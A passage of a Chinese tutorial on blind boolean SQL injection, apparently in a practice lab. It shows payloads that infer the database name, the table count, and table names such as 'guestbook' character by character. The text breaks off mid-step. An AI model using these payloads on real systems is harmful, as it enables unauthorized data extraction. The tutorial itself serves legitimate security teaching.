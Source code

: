 ```
1' and ascii(substr(database(),1,1))>97 #
1' and ascii(substr(database(),1,1))<150 #
... ...(缩小范围)
1' and ascii(substr(database(),1,1))=97 #
先缩小范围在最终确认

```

显示存在，说明数据库名的第一个字符的ascii值大于97（小写字母a的ascii值）；


（3）猜解数据库中的表名
a.表的数量

```
1' and (select count(table_name) from information_schema.tables where table_schema=database())=2 #
```

答案：2
b.按顺序猜解表的名称的字符长度

```
1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 #
```

 显示存在，第一张表：长度：  9

```
1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1))=5 # 
```


显示存在，第一张表：长度：  5

b.按顺序猜解表的名称的每个字符
第一张表第一个字符：

```
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>103 # 
... ...
（方法同上，先缩小范围在最终确认）
```

显示不存在  第一个字符：g
第一张表第一个字符：

```
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>117 #
```

 显示不存在  第二个字符：u
....
第一张表名称：guestbook

第二张表的第一个字符：
